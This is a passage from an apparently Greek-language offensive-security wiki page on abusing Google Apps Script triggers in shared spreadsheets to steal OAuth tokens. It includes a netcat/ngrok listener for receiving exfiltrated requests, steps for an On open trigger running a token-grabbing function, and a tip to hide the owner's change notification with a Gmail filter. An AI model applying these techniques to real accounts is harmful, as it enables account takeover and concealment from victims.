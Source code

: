 ```javascript

try {
UrlFetchApp.fetch(url, options);
} catch (e) {
Logger.log("Error making POST request: " + e.toString());
}
}
```
{% endcode %}

Για να καταγράψετε το αίτημα μπορείτε απλά να εκτελέσετε:
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
Permissions requested to execute the App Script:

<figure><img src="../../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Καθώς γίνεται μια εξωτερική αίτηση, το OAuth prompt θα **ζητήσει άδεια για να φτάσει σε εξωτερικά endpoints**.
{% endhint %}

### Δημιουργία Trigger

Αφού διαβαστεί η Εφαρμογή, κάντε κλικ στο **⏰ Triggers** για να δημιουργήσετε ένα trigger. Ως **λειτουργία** επιλέξτε **`getToken`**, εκτελείται κατά την ανάπτυξη **`Head`**, στην πηγή γεγονότος επιλέξτε **`From spreadsheet`** και τύπο γεγονότος επιλέξτε **`On open`** ή **`On edit`** (ανάλογα με τις ανάγκες σας) και αποθηκεύστε.

Σημειώστε ότι μπορείτε να ελέγξετε τις **εκτελέσεις των App Scripts στην καρτέλα Εκτελέσεις** αν θέλετε να αποσφαλίσετε κάτι.

### Κοινοποίηση

Για να **ενεργοποιηθεί** το **App Script**, το θύμα πρέπει να συνδεθεί με **Πρόσβαση Επεξεργαστή**.

{% hint style="success" %}
Το **token** που χρησιμοποιείται για την εκτέλεση του **App Script** θα είναι αυτό του **δημιουργού του trigger**, ακόμη και αν το αρχείο ανοιχτεί ως Επεξεργαστής από άλλους χρήστες.
{% endhint %}

### Κατάχρηση εγγράφων που έχουν κοινοποιηθεί σε μένα

{% hint style="danger" %}
Αν κάποιος **σας κοινοποίησε ένα έγγραφο με App Scripts και ένα trigger χρησιμοποιώντας το Head** του App Script (όχι μια σταθερή ανάπτυξη), μπορείτε να τροποποιήσετε τον κώδικα του App Script (προσθέτοντας για παράδειγμα τις λειτουργίες κλοπής token), να έχετε πρόσβαση σε αυτό, και το **App Script θα εκτελείται με τις άδειες του χρήστη που σας κοινοποίησε το έγγραφο**! (σημειώστε ότι το OAuth token του ιδιοκτήτη θα έχει ως πεδία πρόσβασης αυτά που δόθηκαν όταν δημιουργήθηκε το trigger).

Μια **ειδοποίηση θα σταλεί στον δημιουργό του script που θα υποδεικνύει ότι κάποιος τροποποίησε το script** (Τι θα λέγατε για τη χρήση των αδειών gmail για να δημιουργήσετε ένα φίλτρο για να αποτρέψετε την ειδοποίηση;)
{% endhint %}

